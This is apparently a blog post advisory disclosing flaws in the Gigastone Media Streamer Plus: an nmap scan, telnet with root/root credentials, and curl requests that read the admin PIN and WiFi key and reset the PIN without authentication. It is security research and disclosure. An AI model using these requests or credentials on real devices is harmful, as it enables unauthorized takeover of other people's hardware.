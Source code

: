 ```yaml
---
layout: post
title: "Playing with the Gigastone Media Streamer Plus"
category: Security
tags:
  - Security
  - Advisories
  - Research
excerpt:
    A few months ago, I was shopping on woot.com and
    discovered the Gigastone Media Streamer Plus for about
    $25.  I figured this might be something occassionally useful, or at least fun to
    look at for security vulnerabilities.  When it arrived, I didn't get around to
    it for quite a while, and then when I finally did, I was terribly disappointed
    in it as a security research target -- it was just too easy.
date: 2018-01-28
---
```


* TOC
{:toc}

## Background ##

A few months ago, I was shopping on [woot.com](https://www.woot.com) and
discovered the [Gigastone Media Streamer Plus](http://amzn.to/2C76sRQ) for about
$25.  I figured this might be something occassionally useful, or at least fun to
look at for security vulnerabilities.  When it arrived, I didn't get around to
it for quite a while, and then when I finally did, I was terribly disappointed
in it as a security research target -- it was just too easy.

The Gigastone Media Streamer Plus is designed to provide streaming from an
attached USB drive or SD card over a wireless network.  It features a built-in
battery that can be used to charge a device as well.  In concept, it sounds
pretty awesome (and there's many such devices on the market) but it turns out
there's no security to speak of in this particular device.

## Exploration ##

By default the device creates its own wireless network that you can connect to
in order to configure and stream, but it can quickly be reconfigured as a client
on another wireless network.  I chose the latter and joined it to my lab network
so I wouldn't need to be connected to *just* the device during my research.

### NMAP Scan ###

The first thing I do when something touches the network is perform an NMAP scan.
I like to use the version scan as well, though it's not nearly as accurate on
embedded devices as it is on more common client/server setups.  NMAP quickly
returned some interesting findings:

```
# Nmap 7.40 scan initiated as: nmap -sV -T4 -p1-1024 -Pn -o gigastone.nmap 192.168.40.114
Nmap scan report for 192.168.40.114
Host is up (0.14s latency).
Not shown: 1020 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
23/tcp open  telnet  security DVR telnetd (many brands)
53/tcp open  domain  dnsmasq 2.52
80/tcp open  http    Boa httpd
MAC Address: C0:34:B4:80:29:EB (Gigastone)
Service Info: Host: use

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done -- 1 IP address (1 host up) scanned in 22.33 seconds
```

Hrrm, FTP and Telnet.  I'm sure they're for a good reason.

### Web Interface  ###

The web interface is functional, but not attractive.  It provides functionality
for uploading and downloading files as well as changing settings, such as
wireless configuration, WAN/LAN settings, and storage usage.

I noticed that, when loading the Settings page, you would sometimes get the
settings visible *before* authenticating to the admin interface.

### Problems with Burp Suite ###

While playing with this device, I did notice a bug in Burp Suite.  The Gigastone
Media Streamer Plus does not adhere to the HTTP RFCs, and all of their cgi-bin
scripts send only `\r` at the end of line, instead of `\r\n` per the RFC.
Browsers are forgiving, so they handled this gracefully.  Unfortunately, when
passing the traffic through Burp Suite, it transformed the '\r\r' at the end of
the response headers to `\n\r\n\r\n`.  This causes the browser to interpret an
extra blank line at the beginning of the response.  Still *not* a problem for
the browser parsing things, but slightly more a problem for the Gigastone
Javascript parsing its own custom response format (newline-separated).

I reported the [bug to PortSwigger](https://support.portswigger.net/customer/portal/questions/17177658-header-lines-with-improper-terminators-manipulated-by-burp-in-strange-ways)
and not only got a prompt confirmation of the bug, but a Python Burp extension
to work around the issue until a proper fix lands in Burp Suite.  That's an
incredible level of support from the authors of a quality tool.

## Vulnerabilities ##

### Telnet with Default Credentials ###

The device exposes telnet to the local network and accepts username 'root' and
password 'root'.  This gives full control of the device to anyone on the local
network.

### Information Disclosure: Administrative PIN (and Other Settings) ###

The administrative PIN can be retrieved by an unauthenticated request to an API.
In fact, the default admin interface uses this API to compare the entered PIN
entirely on the client side.

```
% curl 'http://192.168.40.114/cgi-bin/gadmin'
get
1234
```

In fact, all of the administrative settings can be retrieved by unauthenticated
requests, such as the WiFi settings.  (Though, on a shared network, this is of
limited value.)

```
% curl 'http://192.168.40.114/cgi-bin/cgiNK'
AP_SSID=LabNet
AP_SECMODE=WPA2
PSK_KEY=ThisIsNotAGoodPassphrase
AP_PRIMARY_KEY=1
WEPKEY_1=
WEPKEY_2=
WEPKEY_3=
WEPKEY_4=
```

### Authentication Bypass: Everything ###

None of the administrative APIs actually require any authentication.  The admin
PIN is never sent with requests, no session cookie is set, and there are no
other authentication controls.  For example, the admin PIN can be set via a GET
request as follows:

```
% curl 'http://192.168.40.114/cgi-bin/gadmin?set=4444'
set
0
4444
```

## Timeline ##

- Discovered in ~May 2017
- Reported Jan 28 2018
- Response from Gigastone on Jan 28 2018:

> Media Streamer Plus provides convenient functions for portable use. It is not to replace or to be comparable to normal networking devices. However, we do not recommend users to change internal setup to avoid unrecoverable errors.
